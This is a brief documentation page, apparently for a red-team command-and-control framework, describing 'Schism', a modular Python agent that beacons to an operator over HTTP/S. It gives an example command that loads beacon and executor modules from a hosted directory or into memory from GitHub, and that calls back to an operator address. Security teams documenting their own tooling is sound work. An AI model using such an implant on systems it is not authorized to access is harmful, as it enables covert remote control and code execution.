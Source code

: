 ```yaml
---
title: "Schism"
slug: "schism"
excerpt: ""
hidden: false
metadata: 
  image: []
  robots: "index"
createdAt: "Wed Jun 29 2022 16:58:30 GMT+0000 (Coordinated Universal Time)"
updatedAt: "Wed Jun 29 2022 16:58:30 GMT+0000 (Coordinated Universal Time)"
---
```

Schism is a fully modular Python agent which supports http/https protocols

***

There is currently 1 Protocol supported for schism:

- HTTP/S

### Special Versions of Schism

- Android (which runs over http)

#### Using Schism

- Since schism is fully modular, you can include any additional modules by specifying them with the -m option
- If the target doesn't have internet access, you can stand up a listener and host the modules directory with the -r option
- If the -r option is left blank, schism will attempt to load modules via github directly into memory.

```python
python3 schism.py -r http://localhost/modules -m beacon executor -a http://operatorLocation:3391 -s 5
```

This command would attempt to load from modules from localhost, use the default beacon and executor modules, connect into operator via http, and sleep for 5 seconds in-between beacons.
